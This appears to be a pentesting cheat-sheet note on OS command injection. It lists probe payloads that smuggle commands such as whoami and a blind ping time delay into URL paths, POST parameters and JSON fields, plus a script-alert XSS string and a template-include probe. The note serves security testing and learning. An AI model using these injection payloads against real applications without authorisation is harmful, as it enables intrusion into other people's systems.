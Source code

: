 ```yaml
---
title: OS Command Injection
desc: 
tags: [Burp Suite, Command Injection, Web]
alts: []
render_with_liquid: false
---
```


## 1. Change URL Path/Parameters

```
/api/cmd/whoami
/command/whoami

/?cmd=whoami
```

<br />

## 2. Change POST Parameters

1. **Basic Command Injection**

    ```html
    productId=1&stockId=1|whoami
    ```

2. **Blind Command Injection (Time Delay)**

    Using **"ping"** command.

    ```html
    name=michael&email=michael@example.com||ping+-c+10+127.0.0.1||&message=hello
    ```

3. **JSON Injection**

    ```json
    { "username": "\"; pwd \"" }
    {"name":"<script>alert(1)</script>", "email":"victim@vulnerable.com"}
    {"name": "admin", "content": "{{template: ./admin.php}}"}
    ```